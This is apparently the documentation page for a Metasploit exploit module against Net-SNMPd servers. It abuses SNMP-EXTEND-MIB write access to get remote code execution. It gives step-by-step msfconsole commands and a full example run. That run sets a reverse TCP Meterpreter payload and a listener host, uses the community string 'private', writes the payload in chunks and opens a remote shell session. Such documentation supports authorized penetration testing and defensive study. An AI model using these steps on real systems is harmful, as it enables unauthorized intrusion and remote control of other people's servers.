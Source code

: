 ## Vulnerable Application

  This module uses SNMP extension MIBs to enable remote code execution on the Linux Net-SNMPD servers using the 
  SNMP-EXTEND-MIB.

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/net_snmpd_rw_access`
  3. Do: `set rhost [IP]`
  4. Do: `set community [SNMP Community]`
  5. Do: `set version [SNMP Version]`
  4. Configure the payload
  5. Do: `run`
  6. You should get a session


## Example Run

  ```
  msf > use exploit/linux/snmp/net_snmpd_rw_access 
  msf exploit(linux/snmp/net_snmpd_rw_access) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/snmp/net_snmpd_rw_access) > set rhost 192.168.1.3
  rhost => 192.168.1.3
  msf exploit(linux/snmp/net_snmpd_rw_access) > set lhost 192.168.1.2
  lhost => 192.168.1.2
  msf exploit(linux/snmp/net_snmpd_rw_access) > set community private
  community => private
  msf exploit(linux/snmp/net_snmpd_rw_access) > set version 2c
  version => 2c

  msf exploit(linux/snmp/net_snmpd_rw_access) > show info
  
         Name: Net-SNMPd Write Access SNMP-EXTEND-MIB arbitrary code execution
       Module: exploit/linux/snmp/net_snmpd_rw_access
     Platform: 
         Arch: 
   Privileged: No
      License: Metasploit Framework License (BSD)
         Rank: Normal

  Provided by:
    Steve Embling at InteliSecure

  Available targets:
    Id  Name
    --  ----
    0   Linux x86

  Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    CHUNKSIZE  200              yes       Maximum bytes of payload to write at once 
    COMMUNITY  private          yes       SNMP Community String
    FILEPATH   /tmp             yes       file path to write to 
    RETRIES    1                yes       SNMP Retries
    RHOST      192.168.1.3      yes       The target address
    RPORT      161              yes       The target port (UDP)
    TIMEOUT    1                yes       SNMP Timeout
    VERSION    2c               yes       SNMP Version <1/2c>

  Payload information:
    Space: 4096

  Description:
    This exploit module exploits the SNMP write access configuration 
    ability of SNMP-EXTEND-MIB to configure MIB extensions and lead to 
    remote code execution.

  References:
    https://www.intelisecure.com

  msf exploit(linux/snmp/net_snmpd_rw_access) > run

  [*] Started reverse TCP handler on 192.168.1.2:4444 
  [*] Writing to NET-SNMP-EXTEND-MIB with given payload
  [*] Payload generated. Sending in 200 byte chunk increments.
  [*] Sent chunked executable. Now executing payload
  [*] Sending stage (849108 bytes) to 192.168.1.3
  [+] SNMP request timeout (this is promising).

  meterpreter > exit
  [*] Shutting down Meterpreter...
 
  [*] 192.168.1.3 - Meterpreter session 1 closed.  Reason: User exit
  ```
